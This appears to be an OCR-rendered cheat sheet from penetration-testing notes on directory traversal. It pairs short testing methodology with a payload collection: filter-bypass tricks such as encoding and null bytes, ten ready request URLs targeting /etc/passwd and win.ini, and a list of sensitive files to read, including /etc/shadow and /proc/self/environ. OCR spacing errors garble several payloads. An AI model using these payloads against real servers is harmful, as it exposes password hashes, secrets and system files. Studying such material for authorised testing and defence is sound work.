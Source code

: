 What is Directory Traversal ?
Directory Traversal is a vulnerability that allows an attacker to read files in the server that is running the app.

How to find Directory Traversal
Black Box Testing
* Map the App
	* Identify all instances where the web application appears to contain the name of a file or directory
	* Identify all functions in the app whose implementation is likely to invole retrieval of data from a server filesystem
* Test identified instances with common directory traversal payloads and observe how the app responds

White Box Testing
* Identify instances where user-supplied input is being passed to file APIs or as parameters to the OS
	* Identify instances in a running app first(black-box perspective) and then review the code responsible for the functionality
	* Grep on functions in the code that are known to include and evaluate files on the server and review if they make user supplied input
	* Use a tool to monitor all filesystem activity on the server. then test each page of the app by inserting a single unique string. Set a filter in your monitoring tool for that specific string and identity all filesystem events contain the sting.

Exploiting Directory Traversal
* Regular Case, .. /.. /.. /.. /.. /.. /etc/passwd or \\..\\WINDOWS\win.ini
* Absolute paths like /etc/passwd
* Traversal sequences stripped non-recursively, ....//....//etc/passwd
* Try to URL encode the payload (Or even double encoding)
* Bypass start of path validation, /var/ww/images/../../etc/passwd
* Bypass file extension validation using null byte. ../../etc/passwd%00.png (Try different extensions for the same thing)

Basic Payloads
* http: //localhost/index.php? page =.. /.. /.. /.. /.. /.. /etc/passwd
* http: //localhost/index.php? page =?page=....//....//etc/passwd
* http: //localhost/index.php? page =?page=../../.htaccess
* http: //localhost/index.php? page =?page=\\..\\WINDOWS\win.ini
* http: //localhost/index.php? page =..%5c/etc/passwd
* http: //localhost/index.php? page =....\\/....\\/....\\/....\\/....\\/etc/passwd
* http: //example.com/index.php?page = ..%252f..%252f..%252fetc%252fpasswd
* http: //example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
* http: //example.com/index.php?page=%252e%252e%252fetc%252fpasswd
* http: //example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

Interesting files to check out  when you find Directory Traversal :
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

Make sure to read the files taht contains info about the plugins/frameworks in the system.
